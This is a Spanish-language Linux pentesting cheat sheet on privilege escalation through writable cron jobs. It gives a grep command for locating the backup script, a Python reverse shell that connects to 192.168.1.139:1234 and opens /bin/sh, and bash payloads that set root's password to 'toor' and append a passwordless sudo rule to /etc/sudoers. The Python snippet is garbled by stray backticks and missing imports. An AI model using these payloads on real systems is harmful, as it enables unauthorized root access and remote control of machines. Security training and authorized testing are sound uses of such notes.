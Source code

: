 ```yaml
---
title: "Cronjobs"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/cronjobs"
date: "2025-09-30"
---
```


### Tareas cron
### Binarios que pueden verse afectados por una tarea cron
Cuando tenemos un fichero por ejemplo **/home/eddy/backup.bk**, puede ser que sea un backup realizado a través de una tarea cron, pero no la podamos ver. Para localizar el binario que realiza ese backup e intentar escalar privilegios por ahí se puede buscar binarios que contengan esa línea, ej:
```bash
grep -rnw / -e "/home/eddy/backup.bk"

y en el resultado seguramente veamos un script que llame a ese fichero y podamos tirar por ahí. (esto es bastante frecuente, solo tenemos que ir acotando el lugar de búsqueda, ya que desde la raíz quizás tarde mucho en encontrar ese script). Por ejemplo podemos buscar en /usr o /opt
```


##### Tarea cron python (reverse shell)
Si es editable añadimos el siguiente codigo para establecer una reverse shell con tareas cron. (y nos ponemos a la escucha):
```python 
`#!/bin/python3`

`import sys`

`import time`

`import subprocess`

`from pwn import *`

`if` `__name__ ==` `"__main__"``:`

    `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((``"192.168.1.139"``,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([``"/bin/sh"``,``"-i"``])`
```

##### Tarea cron python no editable
Podriamos tratar de mirar si podemos editar librerias o podemos escribir en el directorio donde está alojado el *.py*, ya sea porque nuestro usuario o nuestro grupo pueda hacerlo.  Mirar sección Python Library hijacking.


##### Tarea cron bash (cambio contraseña root)
Si es editable, podemos meterle lo siguiente:

Este script, establece al usuario root, la **contraseña: "toor"**
```bash
#!/bin/bash  
echo -e "toor\ntoor" | passwd root
```

Este script permite al usuario en cuestión ejecutar cualquier comando como root:
```bash
#!/bin/bash  
echo "usuario ALL=NOPASSWD:ALL" >> /etc/sudoers  
```

Bastaría con hacer sudo su, y ya somos root